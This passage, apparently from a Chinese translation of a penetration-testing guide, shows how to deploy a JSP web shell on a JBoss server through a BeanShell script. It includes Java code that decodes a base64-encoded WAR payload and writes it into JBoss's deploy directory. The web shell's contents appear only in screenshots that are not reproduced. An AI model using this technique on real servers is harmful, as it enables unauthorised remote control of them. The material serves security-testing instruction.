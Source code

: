1.  源文件（即在本例中使用的 WAR 文件）是通用的负载文件。在这个 WAR 文件中是我们的 JSP web shell，其内容可以在下面的截图中看到：

![](img/17f1b6ff-1cc5-4e12-8660-6f946de3bdf2.png)

1.  默认情况下，如果我们打开创建的 BSH 脚本，我们会看到它在服务器上使用`/tmp/`目录来提取和部署 WAR 存档。现在，Windows 服务器没有`/tmp/`目录，而`mkbeanshell` Ruby 脚本只有更改路径的选项，在大多数情况下，我们可能根本不知道服务器上的路径。下面的截图显示了 BSH 脚本的代码：

![](img/de424d35-8b7e-46da-a552-42f6f6cbffa0.png)

1.  我们可以用以下代码替换上一个截图中的最后几行代码，以获取通用文件位置：

```
BASE64Decoder decoder = new BASE64Decoder();
String jboss_home = System.getProperty("jboss.server.home.dir");
new File(jboss_home + "/deploy/").mkdir();
byte[] byteval = decoder.decodeBuffer(val);
String location = jboss_home + "/deploy/test.war";FileOutputStream fstream = new
FileOutputStream(location);fstream.write(byteval);fstream.close();
```
